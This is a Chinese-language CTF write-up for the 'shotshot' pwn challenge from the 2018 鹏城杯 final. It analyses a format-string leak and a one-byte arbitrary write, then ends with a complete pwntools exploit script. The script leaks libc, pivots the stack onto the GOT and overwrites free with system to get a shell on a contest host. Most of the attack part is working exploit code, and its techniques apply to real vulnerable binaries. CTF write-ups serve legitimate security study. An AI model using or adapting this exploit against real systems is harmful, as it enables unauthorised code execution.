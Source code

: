 ```yaml
---
title: 鹏城杯 2018 决赛 day1 shotshot writeup
date: 2018-12-10 21:31:41
tags: [pwn, ctf, "鹏城杯", writeup]
---
```

周四打完xnuca后紧接着打了pcb final。说实话用户体验极差。有关参加鹏城杯决赛的体验，请移步[如何评价天下第一的鹏城杯线下攻防赛？ - 言者850的回答 - 知乎](https://www.zhihu.com/question/305111020/answer/548758534)。这比赛分成两天，两天都是写出了一道的exp，这是第一天shotshot题目的writeup
<!--- more --->
## 题目分析
题目漏洞是@TTX同学找到的。主要有两个。其中`show`函数中

```c
  if ( weapon )
    result = printf(weapon);
```
有个格式化字符串，不过只能leak不能去写栈。

在`dead`函数下
```c
  __isoc99_scanf("%d", &v2);
  *(a1 + v4) = v2;
```
其中，v4是之前`get_id`函数读入的任意值，a1是传入的全局变量，这样就造成了我们能将全局变量后的任意地址写入一个字节。而在写入后，程序的逻辑会去call全局变量后保存的某个地址。这样我们就能有条件地rop了。接下来就是一个短短的rop利用链

首先我们把那个全局变量后的0x20的地方写成`0x400aaf`因为一字节的限制，只能在`0x400a00` ~ `0x400aff`之间跳。我们选择跳到
```
.text:0000000000400AAF                 lea     rax, [rbp+var_40]
.text:0000000000400AB3                 mov     esi, 30h
.text:0000000000400AB8                 mov     rdi, rax
.text:0000000000400ABB                 call    to_read
.text:0000000000400AC0                 lea     rax, [rbp+var_40]
.text:0000000000400AC4                 mov     rsi, rax
.text:0000000000400AC7                 mov     edi, offset aThankYouS ; "Thank you %s\n"
.text:0000000000400ACC                 mov     eax, 0
.text:0000000000400AD1                 call    _printf
.text:0000000000400AD6                 nop
.text:0000000000400AD7                 mov     rax, [rbp+var_8]
.text:0000000000400ADB                 xor     rax, fs:28h
.text:0000000000400AE4                 jz      short locret_400AEB
.text:0000000000400AE6                 call    ___stack_chk_fail
```
然后进入`to_read`函数后，会把`rsp`的值给`rbp`，而此时rsp由于我们直接跳转到`0x400aaf`，没有进行函数进入时到`sub rsp, XX`的操作。所以此时再去读0x30字节就会造成栈溢出。接下来就好办了，将栈布置成如下

1. `8*'a'` padding
2. `printf_got 的地址 +0x20`
3. `0x400aaf` 下一步rop
4. `0x18 * 'a'` padding

这样我们完成了第一阶段的rop，利用`leave ret`将rbp指向got表附近，接下来进行第二步rop。和之前利用一样，栈的布局如下
1. `system addr` 将free写成system
2. `puts addr` 不变
3. `0x400eaa` 将chk_fail函数替换成这个，利用`delete`函数，把原来执行`free(weapon)` 替换成执行`system(weapon)`
然后就get shell了。

## 感想
以上是第二版的exp，第一版的exp本地可以，但是远程不行，主要是可能两次执行了system函数，其中第一次无意义第二次才get shell导致了未知错误。第二版就没有问题了。这个rop链对我来说还是有点长的，尤其是一字节的跳转比较难找到地方，做完这题收获蛮大的。

## 脚本
```python
#! /usr/bin/env python2
# Author: 850
from pwn import *
import os


class BASE(object):
    def __init__(self, remote_host, remote_port, local_elf, gdb_script, _remote_libc, _local_libc):
        """
        initial basic paramaters
        """
        self.rhost = remote_host
        self.rport = remote_port
        self.elf_name = local_elf
        self.gdb_scripts = gdb_script
        self.local_libc = _local_libc
        self.remote_libc = _remote_libc
        self.elf = ELF(self.elf_name)
        context(os='linux', log_level='info')
        context(terminal=["xfce4-terminal", "-e"])

    def local_debug(self, gdb_attach):
        """
        debug with GDB
        """
        self.target = process(self.elf_name)
        self.libc = ELF(self.local_libc)
        self.one_gadget_offset = 0xf02a4
        if gdb_attach:
            gdb.attach(self.target, gdbscript=self.gdb_scripts)

    def remote_attack(self,):
        """
        try remote exploit
        """
        self.libc = ELF(self.remote_libc)
        self.one_gadget_offset = 0xf1147
        self.target. remote(self.rhost, self.rport)

    def leak(self, ):
        """
        use fsb to leak libc_start_main
        """
        self.target.sendafter('Your name :','aaa')
        self.target.sendlineafter('5. exit','1')
        self.target.sendlineafter("Input the length of your weapon's name:",'100')
        self.target.sendlineafter('Input the name:','%11$p')
        self.target.sendlineafter('5. exit','2')
        self.target.recvline()
        data =  self.target.recvline()
        return int(data,16)

    def die(self):
        """
        trigger luckynum
        """
        self.target.sendlineafter('5. exit','1')
        self.target.sendlineafter("Input the length of your weapon's name:",'100')
        self.target.sendlineafter('Input the name:','/bin/sh')

        self.target.sendlineafter('5. exit','4')
        self.target.sendlineafter('3. C++','1')
        self.target.sendlineafter('id:','32')

        self.target.sendlineafter('5. exit','4')
        self.target.sendlineafter('3. C++','4')
        self.target.sendlineafter('5. exit','4')
        self.target.sendlineafter('3. C++','4')
        self.target.sendlineafter('5. exit','4')
        self.target.sendlineafter('3. C++','4')

    def run(self,):
        libc_start_main = self.leak() - 243
        print "libc_start_main addr: " + hex(libc_start_main)

        libc_addr = libc_start_main - self.libc.symbols['__libc_start_main']
        print "libc base addr: " + hex(libc_addr)

        self.die()
        to_read = 0x400aaf
        one_gadget_addr = libc_addr + self.one_gadget_offset
        self.target.sendlineafter('luckynum:',str(int(to_read)))

        printf_got = 0x602038
        fake_rbp = printf_got + 0x20

        self.target.send("A"*0x8+ p64(fake_rbp) +p64(0x400aaf) + "a" * 0x18)
        system_addr = libc_addr + self.libc.symbols['system'] 
        puts_addr = libc_addr + self.libc.symbols['puts']

        print "system addr: " + hex(system_addr)
        self.target.send(p64(system_addr) + p64(puts_addr) + p64(0x400eaa))

        self.target.interactive()

solve = BASE(
    remote_host="172.91.0.138",
    remote_port=8084,
    local_elf="./shotshot",
    _remote_libc="./libc.so.6",
    _local_libc="/lib64/libc.so.6",
    gdb_script="b *0x400D60\nb *0x400a7e"
)

solve.local_debug(gdb_attach=False)
# solve.remote_attack()
solve.run()
```

